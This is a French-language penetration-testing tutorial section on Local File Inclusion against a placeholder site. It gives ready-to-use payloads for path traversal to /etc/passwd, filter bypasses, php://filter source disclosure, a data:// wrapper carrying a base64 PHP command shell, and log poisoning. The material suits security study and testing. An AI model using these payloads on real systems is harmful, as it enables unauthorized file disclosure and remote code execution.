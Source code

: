 ### File Inclusion

Les vulnérabilités d'inclusion de fichiers permettent à un attaquant d'inclure des fichiers locaux ou distants dans l'exécution d'une application web.

#### Local File Inclusion (LFI)

LFI se produit lorsqu'une application inclut un fichier du système local basé sur une entrée utilisateur non validée.

##### Identification des LFI

Recherchez des paramètres qui pourraient inclure des fichiers :
```
https://example.com/index.php?page=about
https://example.com/main?template=default
https://example.com/content?file=welcome
```

##### Exploitation basique

1. **Accès aux fichiers système** :
   ```
   https://example.com/index.php?page=../../../etc/passwd
   https://example.com/index.php?page=/etc/passwd
   ```

2. **Contournement de filtres** :
   ```
   # Double encodage
   https://example.com/index.php?page=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
   
   # Nullbyte (PHP < 5.3.4)
   https://example.com/index.php?page=../../../etc/passwd%00
   
   # Chemin absolu
   https://example.com/index.php?page=/var/www/html/index.php
   
   # Séquences de traversée imbriquées
   https://example.com/index.php?page=....//....//....//etc/passwd
   ```

3. **Wrappers PHP** (si applicable) :
   ```
   # Afficher le code source
   https://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
   
   # Exécution de code
   https://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2BCg%3D%3D&cmd=id
   ```

4. **Fichiers de logs** :
   ```
   https://example.com/index.php?page=../../../var/log/apache2/access.log
   ```
   Puis empoisonnement du log via User-Agent
